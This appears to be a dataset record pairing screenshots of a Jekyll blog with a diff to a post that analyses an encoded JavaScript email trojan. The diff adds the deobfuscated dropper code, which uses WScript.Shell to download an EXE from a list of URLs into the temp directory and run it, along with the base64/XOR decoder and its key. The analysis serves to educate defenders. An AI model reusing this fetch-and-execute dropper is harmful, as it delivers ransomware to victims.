

Before and after one commit to Sjord/Sjord.github.io, a Jekyll site: the page built from _posts/2016-02-18-changing-javascript-malware.md, in a window 1280 px wide and 1400 px high. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Add intro, conclusion, cleaned code

```diff
--- a/_posts/2016-02-18-changing-javascript-malware.md
+++ b/_posts/2016-02-18-changing-javascript-malware.md
@@ -5,7 +5,9 @@
 date: 2016-02-18
 ---
 
-Recently I received two similar e-mails with viruses, both using encoded Javascript. The e-mail described that I received a remittance and that I should open the attachment to claim my money. The attachment was a ZIP file named `WU6533175781.zip`, containing a ZIP file named file.zip, containing a Javascript file named `invoice_Ir1vkp.js`. The file is probably zipped twice to get around some antivirus software. Also, the Javascript is encoded:
+Recently I received two similar e-mails with viruses, both using encoded Javascript. In this post we look into how the Javascript is encoded and what it does when it is run.
+
+The e-mail described that I received a remittance and that I should open the attachment to claim my money. The attachment was a ZIP file named `WU6533175781.zip`, containing a ZIP file named file.zip, containing a Javascript file named [`invoice_Ir1vkp.js`](https://github.com/Sjord/encoded-js-trojan/blob/orig/invoice_Ir1vkp.js). The file is probably zipped twice to get around some antivirus software. Also, the Javascript is encoded:
 
 
     var insensatePtK = decode('"AD4qHg9EOH0qJwgvWw=="');
@@ -15,7 +17,7 @@
         engageegd[toutfVe](wandervwY + Math.pow(2, 19));
     }
 
-As you can see both the variable names and the string literals are encoded. The `decode` function is defined in the same file. It base64-decodes the string and XORs it with a cipher:
+As you can see both the variable names and the string literals are encoded. The `decode` function is defined in the same file. It base64-decodes the string and XORs it with a cipher. The code to base64-decode is copied literaly from [webtoolkit.info](http://www.webtoolkit.info/javascript_base64.html).
 
     var decode = function (packedText) {
         var cipher ="WmIlf4LSyOmC766Y";
@@ -30,11 +32,39 @@
         return result;
     };
 
-Now, what is interesting is that the two mails that I received had basically the same code, encoded differently. So the structure and the decode function was the same, but the cipher, the string literals and the variable names differed. I assume this is to make it harder for virus scanners to detect this thing. It is remarkable then that the `decode` function itself is not obfuscated, since that would be an easy marker to recognize this malware.
+Now, what is interesting is that the two mails that I received had basically the same Javascript, encoded differently. So the structure and the decode function was the same, but the cipher, the string literals and the variable names differed. I assume this is to make it harder for virus scanners to detect this thing. It is remarkable then that the `decode` function itself is not obfuscated, since that would be an easy marker to recognize this malware.
 
-Because we have the `decode` function it is easy to decode all the strings in the script, and we can rename the variables to see what the code really does:
+Because we have the `decode` function it is easy to decode all the strings in the script, and we can rename the variables to see what [the code](https://github.com/Sjord/encoded-js-trojan/blob/master/invoice_Ir1vkp.js) really does:
 
+    var wscriptShell = "WScript.Shell";
+    var shellObject = WScript.CreateObject(wscriptShell);
+    …
+    for (var i = 0; i < urls.length; i++) {
+        try {
+            var url = urls[i];
+            httpObject.open(get, url, false);
+            httpObject.send();
+            if (httpObject.status == statusOk) {
+                try {
+                    streamObject.open();
+                    streamObject.type = 1;
+                    streamObject.write(httpObject.responseBody);
+                    if (streamObject.size > minSize) {
+                        i = urls.length;
+                        streamObject.position = 0;
+                        streamObject.saveToFile(exePath, 2);
+                        success = true;
+                    }
+                } finally {
+                    streamObject.close();
+                }
+            }
+        } catch (ignored) {}
+    }
+    if (success) {
+        shellObject[exec](tempDir + Math.pow(2, 19));
+    }
 
-Apparently it downloads and runs an EXE, supposedly with some CryptoLocker variation.
+Apparently it downloads an EXE into the temp directory, and runs it. I assume to install the latest CryptoLocker variation. Normally in a webbrowser you can't download things and run EXE's. However, this script is sent as an attachment and meant to be run from the disk and not from the internet, which gives it permissions to do these things.
 
-As you can see it takes extra effort to obfuscate the EXE filename, using 524288 at once place and `Math.pow(2, 19)`, which is also 524288, when actually running the file.
+As you can see it takes extra effort to obfuscate the EXE filename, using 524288 at one place and `Math.pow(2, 19)`, which is also 524288, when actually running the file. It is a pretty simple piece of Javascript, encoded in a simple way. However, this makes it possible to change the code in each spam campaign or perhaps even each e-mail, which makes it hard to block by virus scanners.
```
